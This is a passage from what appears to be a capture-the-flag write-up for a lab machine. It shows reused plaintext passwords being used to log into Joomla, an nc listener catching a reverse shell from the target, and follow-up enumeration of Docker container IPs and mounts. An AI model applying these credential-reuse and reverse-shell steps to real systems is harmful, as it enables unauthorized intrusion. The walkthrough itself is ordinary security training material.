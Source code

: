 save this information for late and move to the next one is port 8080
in this we can see they using joomla and we already have the user and the hash password
but i can't get to crack it, so just try to use the plain text password that we have before

So i just found the correct password to login joomla
```
ZxJyhGem4k338S2Y (Guinan used to login joomla)
ZD3YxfnSjezg67JZ (geordi.la.forge used to login joomla)
```

after loggedin we just doing similiar thing for wordpress to get reverse shell

```
•% ➜ nc -lvp 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from [10.10.10.61] port 1337 [tcp/*] accepted (family 2, sport 53630)
Linux a7018bfdc454 4.10.0-37-generic #41-Ubuntu SMP Fri Oct 6 20:20:37 UTC 2017 x86_64 GNU/Linux
 16:36:01 up 31 min,  0 users,  load average: 6.57, 9.57, 9.37
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ hostname
a7018bfdc454
$ ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 scope global eth0
       valid_lft forever preferred_lft forever
```

we got ip `172.17.0.3` so our information is now complete about the docker ip
```
172.17.0.1 (Host machine)
172.17.0.2 (Mysql)
172.17.0.3 (Joomla)
172.17.0.4 (Wordpress)
```

doing enumeration using linenum doesn't give interesting finding, but we could see there is 
folder name files and same content with files folder in https service, and i just check using `mount -l`

```
/dev/mapper/enterprise--vg-root on /etc/resolv.conf type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /etc/hostname type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /etc/hosts type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /var/www/html type ext4 (rw,relatime,errors=remount-ro,data=ordered)
/dev/mapper/enterprise--vg-root on /var/www/html/files type ext4 (rw,relatime,errors=remount-ro,data=ordered)
```
